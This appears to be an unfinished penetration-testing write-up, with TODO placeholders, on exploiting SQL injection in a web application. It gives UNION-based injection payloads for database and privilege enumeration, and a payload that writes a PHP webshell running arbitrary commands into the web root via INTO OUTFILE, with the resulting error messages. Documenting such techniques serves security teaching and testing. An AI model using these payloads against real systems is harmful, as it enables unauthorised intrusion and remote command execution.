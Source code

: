 TODO: Demonstrate from the enumeration phase to find the web root directory

WHERE avatar LIKE '%upload%'

WHERE avatar LIKE  '%.jpeg'

WHERE avatar LIKE  '%.pdf'

WHERE avatar LIKE  '%.txt'

`<insert_screenshot from any of the SQLi commands for directory enumeration>`

- Spidering the URL with the use of `katana` to enumerate directories.

TODO: paste terminal commands and output

- Bruteforce the directories in the URL with tools such as, `gobuster`

TODO: paste terminal commands and output

#### 2.2.3 - DB Enumeration

```sql
' UNION SELECT NULL, DATABASE()#

' UNION SELECT NULL, USER()#

' UNION SELECT NULL * FROM information_schema.PRIVILEGES#

' UNION SELECT NULL, GROUP_CONCAT(PRIVILEGE_TYPE, '->',GRANTEE, '->', IS_GRANTABLE, '<br>') FROM information_schema.USER_PRIVILEGES#
```

#### 2.2.4 - Exploit

##### 2.2.4.1 - Exploit via OUTFILE

###### 2.2.4.1.1 - Simple Webshell

Note: There are a few things you need to know about these error messages.

1. MySQL can't find the source. To solve this error, you need to provide the absolute path to source.

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/html/shell.php'#
```

Here's the error message.

```
Can't create/write to file '/var/html/shell.php' (Errcode: 2 "No such file or directory")
```

2. Ensure the directory has write permissions.

```sql
' UNION SELECT '<?php $cmd=$_GET["cmd"];system($cmd);?>', NULL INTO OUTFILE '/var/www/shell.php'#
```

Here's the error message.
